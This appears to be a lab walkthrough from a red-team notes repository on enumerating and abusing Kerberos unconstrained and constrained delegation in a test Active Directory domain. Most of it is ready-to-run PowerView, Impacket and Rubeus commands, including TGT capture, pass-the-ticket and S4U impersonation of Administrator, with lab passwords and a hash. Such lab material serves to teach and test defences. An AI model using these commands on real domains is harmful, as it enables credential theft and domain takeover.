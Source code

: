 
# Scenario

> The lab always requires some domain user credential material or Administrative priviledges on a particular machine. For a particular vulnerability we simply consider the assumptions for individual attacks.

---

# Kerberos Unconstrained Delegation(KUD) - Computer 

Assumption, we have compromised `domuser@red.local` who is a local administrator on the `WEBSRV` machine and the `WEBSRV` machine is `TrustedForDelegation`. 

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```
![](/docs/assets/images/KUD-1.png)

2. ADSearch

```bash
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
![](/docs/assets/images/KUD-2.png)

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetComputer -Unconstrained | select dnshostname,samaccountname
```
![](/docs/assets/images/KUD-3.png)

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```
![](/docs/assets/images/KUD-4.png)

## Exploitation

1. Try listing the C$ on the DC to confirm we don't have administrator privileges on the DC

```bash
dir \\dc01\c$
```
![](/docs/assets/images/KUD-5.png)

2. Run `Rubeus.exe` to view the tickets.

```bash
.\Rubeus.exe triage

klist
```
![](/docs/assets/images/KUD-6.png)
![](/docs/assets/images/KUD-7.png)


3. On websrv run the following to capture TGTs and observe the response in Rubeus

```bash
.\Rubeus.exe monitor /monitorinterval:10 /filteruser:Administrator /nowrap
```

4. Logon to the DC and list the C$ on webserver.

```bash
whoami

hostname

dir \\websrv.red.local\c$
```

![](/docs/assets/images/KUD-8.png)

![](/docs/assets/images/KUD-9.png)


5. Use Rubues.exe ptt module

```bash
.\Rubeus.exe ptt /ticket:<base64-ticket>
klist
```

![](/docs/assets/images/KUD-10.png)

![](/docs/assets/images/KUD-11.png)


6. Try listing the C$ on the DC now to confirm that we have Administrator Credential material.

```
dir \\dc01\c$
```

![](/docs/assets/images/KUD-12.png)

----

# Kerberos Constrained Delegation - User

## Enumeration

1. ADModule

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
![](/docs/assets/images/KCD-1.png)

2. ADSearch

```bash
.\ADSearch.exe --search "(&(objectCategory=user)(msds-allowedtodelegateto=*))" --attributes samaccountname
```
![](/docs/assets/images/KCD-2.png)

3. PowerView

```powershell
. .\PowerView.ps1

Get-NetUser -TrustedToAuth | select samaccountname,msds-allowedtodelegateto
```
![](/docs/assets/images/KCD-3.png)

4. Impacket

```bash
findDelegation.py red.local/domuser:'P@ssw0rd1!' -target-domain red.local
```
![](/docs/assets/images/KUD-4.png)

## Exploitation

1. Use `Rubeus.exe` to generate the users `rc4` hash

```bash
.\Rubeus.exe hash /user:"prod_svc" /password:"P@ss123!" /domain:"red.local"
```

![](/docs/assets/images/KCD-4.png)

2. Use `Rubues.exe` s4u module to impersonate the Administrator 

```bash
.\Rubeus.exe s4u /domain:"red.local" /user:"prod_svc" /rc4:5AF33376FB21C57A84F3066E7CFBDECC /impersonateuser:"Administrator" /msdsspn:"cifs/dc01" /nowrap /ptt

klist
```

![](/docs/assets/images/KCD-5.png)

![](/docs/assets/images/KCD-6.png)

3. List the `C$` share on the DC.

```bash
dir \\dc01\c$
```

